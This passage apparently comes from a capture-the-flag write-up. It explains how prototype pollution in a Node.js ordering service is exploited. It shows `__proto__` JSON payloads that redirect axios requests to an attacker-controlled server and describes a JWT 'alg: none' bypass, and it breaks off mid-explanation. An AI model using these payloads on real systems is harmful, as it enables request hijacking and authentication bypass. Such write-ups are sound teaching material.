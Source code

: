 The code snippet above is vulnerable to prototype pollution - imagine if `data` was something like:

```json
{
	"__proto__": {
		"a": 5
	}
}
```

...then `order["__proto__"]["a"]` would be set to 5, and as `order` is just an object with a base prototype, anything with a prototype which is further down the prototype chain will have `anything.a` return 5. (Read more about prototypes [here](https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Object_prototypes).)

What can we pollute?

```js
// make_order.js
var instance = axios.create({
  baseURL: 'http://back_server:3000',
  timeout: 1000
});

// ...
// pollution
// ...

let response = await instance.post('/create_order',JSON.stringify(order),{headers});
```

We can pollute the [axios request config](https://axios-http.com/docs/req_config)! We can add our own config options, and they'll be used by axios. Notably, polluting `baseURL` allows us to send the request to our own server, with something like:

```json
{
	"__proto__": {
		"baseURL": "http://me"
	}
}
```

This allows us to bypass the Big Mac check and have it be returned in the response! However, we still have to return an object with JWT that passes `jwt.verify`. How would this be achieved?

```js
// make_order.js

let fd = await open('./jwtkey.txt');
let x = await fd.read({buffer: Buffer.alloc(1024)});
let key = x.buffer.toString().slice(0,x.bytesRead);

let created_order = jwt.verify(token,key);
```

My teammate gapipro used the fact that `jwt.verify` works if the token uses `alg: none` in the JWT header, has no signature, and key is nullish! Setting the JWT header and signature is easy as we control it, but how would we get the key to be empty? The answer is more prototype pollution. Notably, the key is being read using `filehandle.read`, which takes [pollutable options](https://nodejs.org/api/fs.html#filehandlereadoptions):
